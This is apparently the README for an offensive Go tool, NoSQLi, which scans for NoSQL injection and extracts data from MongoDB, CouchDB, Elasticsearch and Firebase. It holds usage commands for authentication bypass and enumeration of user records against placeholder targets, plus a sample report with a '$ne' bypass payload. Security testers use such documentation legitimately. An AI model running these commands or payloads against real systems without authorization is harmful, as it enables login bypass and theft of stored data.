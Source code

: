 # NoSQLi - Advanced NoSQL Injection & Enumeration Tool

A powerful Go-based NoSQL injection scanner that can detect vulnerabilities, perform database enumeration, and extract data from various NoSQL databases.

## 🚀 Features

- 🔍 Automatic NoSQL database type detection
- 💉 Advanced injection techniques (Authentication bypass, Time-based, Error-based)
- 📊 Database enumeration capabilities
- 🗄️ Support for multiple NoSQL databases:
  - MongoDB
  - CouchDB
  - Elasticsearch
  - Firebase
- 📝 Detailed JSON reports
- 🔐 Custom headers and authentication support
- 🎯 Precise targeting with multiple payload types

## 🛠️ Installation

### Option 1: Direct Installation
```bash
# Install directly using Go
go install github.com/Silent-Xploit/NoSQLi@latest
```

### Option 2: Build from Source
```bash
# Clone the repository
git clone https://github.com/Silent-Xploit/NoSQLi.git

# Change directory
cd NoSQLi

# Build the tool
go build -o nosqli
```

## 📚 Usage Guide

### Basic Syntax
```bash
./nosqli --url <target_url> [options]
```

### Common Use Cases

1. Basic Vulnerability Scan:
```bash
./nosqli --url "http://target.com/api/login" \
  --method POST \
  --data '{"username":"admin","password":"test"}'
```

2. Authentication Bypass Attempt:
```bash
./nosqli --url "http://target.com/login" \
  --method POST \
  --data '{"user":"admin","pass":"test"}' \
  --headers '{"Content-Type": "application/json"}'
```

3. Database Enumeration:
```bash
./nosqli --url "http://target.com/api" \
  --enum \
  --enum-type databases
```

4. Extract Data from Collection:
```bash
./nosqli --url "http://target.com/api" \
  --enum \
  --enum-type data \
  --collection users \
  --field "username,email" \
  --limit 10
```

## 🎯 Command Line Flags

### Essential Flags
- `-u, --url` (Required)
  - Target URL to scan
  - Example: `--url "http://target.com/api"`

- `-m, --method`
  - HTTP method to use (GET/POST)
  - Default: Auto-detected based on URL and data
  - Example: `--method POST`

### Authentication & Headers
- `-H, --headers`
  - Custom HTTP headers as JSON string
  - Example: `--headers '{"Authorization": "Bearer token123"}'`

- `-c, --cookies`
  - Cookie string for authenticated requests
  - Example: `--cookies "session=abc123; token=xyz"`

- `-d, --data`
  - POST data as JSON string
  - Example: `--data '{"username":"admin"}'`

### Database Options
- `-t, --db-type`
  - Force specific database type
  - Values: mongodb, couchdb, elasticsearch, firebase
  - Example: `--db-type mongodb`

### Enumeration Flags
- `-e, --enum`
  - Enable database enumeration mode
  - Example: `--enum`

- `--enum-type`
  - Type of enumeration to perform
  - Values: databases, collections, fields, data
  - Example: `--enum-type collections`

- `--collection`
  - Specify collection/table to enumerate
  - Example: `--collection users`

- `--field`
  - Fields to extract (comma-separated)
  - Example: `--field "username,email,role"`

- `--where`
  - Conditions for data extraction (JSON format)
  - Example: `--where '{"role":"admin"}'`

- `--limit`
  - Limit number of results
  - Example: `--limit 10`

## 📊 Example Output

```
    _   __      _____ ____    __    _ 
   / | / /___  / ___// __ \  / /   (_)
  /  |/ / __ \ \__ \/ / / / / /   / / 
 / /|  / /_/ /___/ / /_/ / / /___/ /  
/_/ |_/\____//____/\___\_\/_____/_/   

🔍 Starting NoSQL Injection Scanner
Target: http://target.com/api

✅ Detected database: mongodb
✅ Loaded payloads

📊 Enumeration Results:
Found databases:
- admin
- users
- config

Found collections in 'users':
- accounts
- profiles
- settings

Extracted data from 'accounts':
ID | Username | Email | Role
--------------------------------
1  | admin    | admin@site.com | admin
2  | user1    | user1@site.com | user
```

## 📋 Generated Reports

The tool generates a detailed JSON report containing:
```json
{
  "scan_info": {
    "url": "http://target.com/api",
    "method": "POST",
    "detected_db": "mongodb",
    "timestamp": "2025-05-20T10:30:00Z"
  },
  "vulnerabilities": [
    {
      "type": "Authentication Bypass",
      "payload": {"username": {"$ne": null}},
      "success": true
    }
  ],
  "enumeration": {
    "databases": ["admin", "users"],
    "collections": ["accounts", "profiles"],
    "extracted_data": [
      // Array of extracted records
    ]
  }
}
```

## ⚠️ Security Notice

This tool is for authorized security testing only. Unauthorized testing of systems you don't own or have permission to test is illegal.

## 📜 License

MIT License - See LICENSE file for details
